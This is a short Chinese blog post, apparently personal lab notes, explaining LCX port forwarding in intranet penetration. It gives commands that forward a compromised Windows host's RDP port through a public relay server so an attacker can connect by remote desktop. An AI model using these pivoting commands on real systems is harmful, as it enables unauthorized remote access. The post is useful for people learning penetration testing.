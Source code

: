 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
    - 内网渗透
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

### 实验环境
    win2003  （肉鸡）
    公网linux  （转发机器）
    本机   （攻击机）

### 过程记录
* 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
`lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
>将本机的3389端口转发到45.77.43.77的2222端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

* 在公网的linux机器上执行命令<br>
`./portmap -m 2 -p1 2222 -p2 55`
>监听本地的2222端口，并将其数据转发到55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

* 在本机使用mstsc连接45.77.43.77的55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

### 连接成功

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)


